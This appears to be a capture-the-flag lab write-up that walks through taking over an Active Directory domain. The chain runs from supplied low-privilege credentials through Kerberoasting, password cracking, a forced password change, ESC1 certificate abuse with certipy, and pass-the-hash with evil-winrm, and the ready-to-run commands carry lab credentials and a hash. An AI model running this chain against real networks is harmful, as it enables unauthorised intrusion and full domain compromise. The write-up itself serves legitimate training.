






# Arasaka

The exercise provides us an initial foothold with: `faraday:hacksmarter123`. Within that user we immediately run a bloodhound scan and start analyzing the AD structure:

```sh
bloodhound-python -u 'faraday' -p 'hacksmarter123' -ns 10.1.86.217 -d hacksmarter.local -c all
```

## `alt.svc` kerberoastable

### Commands

```sh
targetedKerberoast -v -d 'hacksmarter.local' -u 'faraday' -p 'hacksmarter123'
```

```sh
hashcat -m 13100 tgs_altsvc /usr/share/wordlists/rockyou.txt
```

Ran the scan, we do not find any direct association with that user, but we discover one user is kerberoastable:



So we immediately proceed with kerberoasting that user and retrieve its password `babygirl1`

---

## GenericAll over `yorinobu`

### Commands

```sh
net rpc password 'yorinobu' 'Hacked?' -U 'HACKSMARTER.LOCAL'/'Alt.Svc'%'babygirl1' -S 'dc01.hacksmarter.local'
```

With the `alt.svc` user we have GenericAll rights over the user `yorinobu`, thus we can proceed with a ForceChangePassword:




---

## GenericWrite over `Soulkiller.Svc`

### Commands

```sh
targetedKerberoast -v -d 'hacksmarter.local' -u 'yorinobu' -p 'Hacked?'
```

```sh
hashcat -m 13100 tgs_soulkiller /usr/share/wordlists/rockyou.txt
```

Obtained control on `yorinobu` we can now move laterally onto `Soulkiller.svc` since it has `GenericWrite` rights over that user


Obtaining the user: `Soulkiller.svc:MYpassword123#`

---

## Privilege Escalation onto `the_emperor`

### Commands

```sh
certipy-ad find -target dc01.hacksmarter.local -u 'Soulkiller.Svc' -p 'MYpassword123#' -vulnerable -stdout
```

```sh
certipy-ad req -u 'Soulkiller.svc@hacksmarter.local' -p 'MYpassword123#' -dc-ip '10.1.86.217' -target 'DC01.hacksmarter.local' -ca 'hacksmarter-DC01-CA' -template 'AI_Takeover' -upn 'administrator@hacksmarter.local' -sid 'S-1-5-21-3154413470-3340737026-2748725799-500'
```

```sh
certipy-ad req -u 'Soulkiller.svc@hacksmarter.local' -p 'MYpassword123#' -dc-ip '10.1.86.217' -target 'DC01.hacksmarter.local' -ca 'hacksmarter-DC01-CA' -template 'AI_Takeover' -upn 'the_emperor@hacksmarter.local' -sid 'S-1-5-21-3154413470-3340737026-2748725799-1601'
```

```sh
certipy-ad auth -pfx 'the_emperor.pfx' -dc-ip '10.1.86.217'
```

```sh
evil-winrm -u 'the_emperor' -H 'd87640b0d83dc7f90f5f30bd6789b133' -i 10.1.86.217
```

### Resources

- [Reference](https://github.com/ly4k/Certipy/wiki/06-%E2%80%90-Privilege-Escalation#esc1-enrollee-supplied-subject-for-client-authentication)

Since we have a service user, we opt to check for vulnerabilities through `certipy-ad`:


and disc over a vulnerability of type ESC1. Following this guide we can try to figure out how to use it https://github.com/ly4k/Certipy/wiki/06-%E2%80%90-Privilege-Escalation#esc1-enrollee-supplied-subject-for-client-authentication



We first extrapolate CA Name, DNS Name and the Template Name and then user it over the administrator user with `certipy-ad req`:


The pfx is correctly generated, however when we try to authenticate within the pfx the error message is the following:



Looking at bloodhound, we realize another user might serve as a powerful user. That user is called `the_emperor` and seems to be an administrator as well of the domain:



So, we try to gain control of that user following the command above, just changing the SID and the upn:


 We then authenticate, obtaining the hash:




Finally, we can now use the hash to authenticate through `evil-winrm`. This user is a Domain Administrator, thus can manage to get the control of the domain alongside Administrator.

---

